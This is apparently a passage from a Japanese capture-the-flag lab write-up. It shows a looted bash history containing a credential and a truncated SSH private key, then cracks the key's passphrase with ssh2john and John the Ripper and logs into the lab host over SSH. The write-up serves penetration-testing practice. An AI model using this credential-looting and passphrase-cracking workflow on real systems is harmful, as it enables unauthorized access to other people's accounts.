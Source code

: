 
user.txt

```
9a1................................
```

.bash_history

```
whoami pwd ls -al ls cd .. sudo -l echo "saad:ひみつ" > creds.txt rm creds.txt sudo -l whomai whoami pwd ls -al sudo -l ls -al pwd whoami mysql -u root -p netstat -antlp mysql -u root sudo su ssh root@192.169.155.104 mysql -u user -p mysql -u db_user -p ls -ld /var/lib/mysql ls -al cat .bash_history cat .bash_logout nano .bashrc ls -al
```

.ssh/id_rsa

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABA1J8+LAd
rb49YHdSMzgX80AAAAEAAAAAEAAAGXAAAAB3NzaC1yc2EAAAADAQABAAABgQDBbWMPTToe
中略
ksrXEYjaMdndnvxBZ0zi9T+ywag=
-----END OPENSSH PRIVATE KEY-----
```

秘密鍵を得たが、パスフレーズが必要。

パスフレーズをクラック

```shell
$ ssh2john ./id_rsa_saad > hash_saad

$ john ./hash_saad
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 6 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
ひみつ        (./id_rsa_saad)
1g 0:00:07:30 DONE 2/3 (2025-03-27 03:56) 0.002217g/s 46.72p/s 46.72c/s 46.72C/s rosita..sweetness
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

割れた。このパスフレーズを使い、SSH 接続成功。

```shell
$ ssh saad@10.10.173.205 -i ./id_rsa_saad
Enter passphrase for key './id_rsa_saad':

saad@m4lware:~$
```
